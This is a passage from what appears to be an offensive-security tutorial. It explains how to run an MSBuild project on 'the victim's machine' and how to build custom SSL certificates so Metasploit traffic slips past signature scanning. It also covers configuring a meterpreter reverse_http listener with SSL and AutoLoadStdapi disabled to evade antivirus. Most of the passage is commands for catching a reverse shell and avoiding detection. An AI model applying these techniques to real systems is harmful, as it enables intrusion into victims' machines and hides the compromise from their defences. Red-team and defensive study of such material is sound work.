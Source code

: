 On the victim's machine:

Identify MSBuild version

```cmd
dir /b /s C:\msbuild.exe
```

Execute project

```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe WindowsHelper.csproj
```

# Generating Self-Signed Certificates:

Msfvenom randomizes SSL certificates. Such certificates could be detected by signature scanning. You can bypass it by creating your custom SSL certificate.

```bash
openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
```

Create a .pem file:

```bash
cat priv.key cert.crt > custom.pem
```

Change CipherString=DEFAULT@SECLEVEL=2 in /etc/ssl/openssl.cnf to:

```bash
CipherString = DEFAULT
```

# Metasploit Listener:

There are some advanced options in the Metasploit multi/handler module that can help you bypass anti-virus. The first of them is the SSL option. When set to true you listener will be using SSL for the connection. You can use created above custom self-signed certificate for this purpose.

```bash
set payload windows/x64/meterpreter/reverse_http
set SSL true
set HandlerSSLCert /home/RoseSecurity/custom.pem
```

Another very handy option is to turn off autoloading of stdapi which is responsible to load the default commands of the meterpreter. When loaded, it reserves a space in memory to load meterpreter functions. Anti-viruses scan all the process memory for this signature and can detect that as malicious. If you set it to false, the meterpreter will behave like a common connection. After getting the reverse shell, you can load stdapi manually.

```bash
set AutoLoadStdapi false
```

AutoVerifySession option makes the meterpreter send another connection after establishing the first connection to see if it is alive. It can be detected too.

